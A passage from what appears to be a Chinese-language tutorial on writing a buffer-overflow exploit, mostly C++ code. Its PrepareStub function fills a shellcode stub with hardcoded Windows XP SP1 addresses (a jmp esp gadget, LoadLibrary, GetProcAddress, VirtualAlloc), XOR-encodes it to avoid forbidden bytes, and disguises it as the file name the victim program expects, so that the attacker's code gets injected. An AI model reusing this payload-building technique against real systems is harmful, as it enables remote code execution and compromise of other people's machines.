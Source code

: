 ```cpp
int nStubCodeSize = (int)(((DWORD)StubCodeEnd) - ((DWORD)StubCode));
```

我没有从官方资料上找到可以这么做的依据，但在我的环境中，它确实工作的很好！

有了stub，我们还需要一些代码对其进行填充并注入到victim中去。注入过程只是简单的网络通讯，就不讲了，单看数据填充。

```cpp
BOOL PrepareStub(STUB* pStub)
{
    //copy const data
    memcpy(pStub, &g_stub, sizeof(STUB));
    //prepare stub code param
    pStub->dwJmpEsp = 0x77D437DB;        //这几个地址适用于
    pStub->sp.fnLoadLibrary = 0x77E5D961;    //victim程序运行在
    pStub->sp.fnGetProcAddr = 0x77E5B332;    //winxp pro + sp1 系统上
    pStub->sp.fnVirtualAlloc = 0x77E5AC72;     //的情况
    pStub->sp.dwImageSize = GetImageSize((LPCBYTE)g_hInst);
    pStub->sp.rvaAttackerEntry = ((DWORD)AttackerEntry) - ((DWORD)g_hInst);

    //copy stub code
    int nStubCodeSize = (int)(((DWORD)StubCodeEnd) - ((DWORD)StubCode));
    memcpy(pStub->arrStubCode, StubCode, nStubCodeSize);

    //find xor mask
    int nXorSize = (int)(sizeof(STUBPARAM) + nStubCodeSize);
    LPBYTE pTmp = (LPBYTE)(&(pStub->sp));
    BYTE byXorMask = GetXorMask(pTmp, nXorSize, (LPCBYTE)g_arrDisallow,
        sizeof(g_arrDisallow)/sizeof(g_arrDisallow[0]));
    if(byXorMask == g_arrDisallow[0])
        return FALSE;
    //xor it
    for(int i=0; i<nXorSize; i++)
        *(pTmp+i) ^= byXorMask;

    //fill stubstubcode
    pStub->ssc.wXorSize = (WORD)nXorSize;
    pStub->ssc.byXorMask = byXorMask;

    //Does the stubstubcode contains a disallowed char?
    pTmp = (LPBYTE)(&(pStub->ssc));
    for(i=0; i<sizeof(STUBSTUBCODE); pTmp++, i++)
        for(int j=0; j<sizeof(g_arrDisallow)/sizeof(g_arrDisallow[0]); j++)
            if(*pTmp == g_arrDisallow[j])
                return FALSE;
    //make it an "valid" file name the victim wants
    strcpy((char*)(&(pStub->arrStubCode[nStubCodeSize])), g_szStubTail);
    return TRUE;
}
```

其中，pStub指向一块事先分配的内存区，其大小是计算好的，绝对不会超支（我们是干这行的，肯定得先把自身的问题解决好:)）；g_stub是一个STUB类型的全局变量，保存了stub中固定不变的数据；g_hInst是attacker的进程的句柄，以它为参数调用GetImageSize就能得到attacker的内存映像的大小；g_arrDisallow是一个字符数组，里面是所有不允许出现的字符。
